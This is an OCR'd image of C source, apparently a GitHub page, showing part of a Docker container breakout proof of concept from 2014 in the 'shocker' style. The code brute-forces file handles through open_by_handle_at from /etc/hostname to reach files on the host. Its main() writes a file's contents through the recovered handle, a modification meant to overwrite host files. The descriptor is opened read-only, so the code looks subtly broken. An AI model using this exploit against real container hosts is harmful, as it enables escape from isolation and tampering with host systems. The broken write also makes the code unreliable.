 ```
                for (uint32_t i = 0; i < 0xffffffff; ++i) {
                        outh.handle_bytes = 8;
                        outh.handle_type = 1;
                        memcpy(outh.f_handle, &ino, sizeof(ino));
                        memcpy(outh.f_handle + 4, &i, sizeof(i));

                        if ((i % (1<<20)) == 0)
                                fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                        if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                                closedir(dir);
                                close(fd);
                                dump_handle(&outh);
                                return find_handle(bfd, path, &outh, oh);
                        }
                }
        }

        closedir(dir);
        close(fd);
        return 0;
}


int main(int argc, char* argv[])
{
        char buf[0x1000];
        int fd1, fd2;
        struct my_file_handle h;
        struct my_file_handle root_h = {
                .handle_bytes = 8,
                .handle_type = 1,
                .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
        };

        fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014             [***]\n"
               "[***] The tea from the 90's kicks your sekurity again.     [***]\n"
               "[***] If you have pending sec consulting, I'll happily     [***]\n"
               "[***] forward to my friends who drink secury-tea too!      [***]\n\n<enter>\n");

        read(0, buf, 1);

        // get a FS reference from something mounted in from outside
        if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
                die("[-] open");

        if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
                die("[-] Cannot find valid handle!");

        fprintf(stderr, "[!] Got a final handle!\n");
        dump_handle(&h);

        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
                die("[-] open_by_handle");

        char * line = NULL;
        size_t len = 0;
        FILE *fptr;
        ssize_t read;
        fptr = fopen(argv[2], "r");
        while ((read = getline(&line, &len, fptr)) != -1) {
                write(fd2, line, read);
        }
        printf("Success!!\n");
```